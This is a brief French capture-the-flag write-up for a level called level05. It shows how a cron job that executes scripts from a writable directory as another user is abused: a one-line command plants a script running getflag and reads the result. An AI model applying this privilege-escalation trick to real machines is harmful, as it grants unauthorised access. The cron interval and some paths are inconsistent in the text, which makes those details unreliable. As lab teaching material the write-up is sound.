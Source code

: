 En se connectant avec l'utilisateur, on peut voir un message: `You have new mail.`

Le programme mail n'étant pas installé sur le système, on peut voir les mails dans `/var/mail/level05`:

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

Cette tache cron execute le script `/usr/bin/openarenaserver` toutes les 30 secondes en tant que `flag05`.

En ouvrant `/usr/bin/openarenaserver`, on obtient:

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Ce script exécute dans bash tous les fichiers présent dans /opt/arenaserver avec une limite de temps d'exécution de 5 secondes puis supprime le script.
Tous ces scripts étant exécuter avec le compte flag05, on peut s'en servir pour exécuter getflag et récupérer le flag:

`echo "getflag > /tmp/flag05" > /opt/openarenaserver/getflag; sleep 35; cat /tmp/flag05`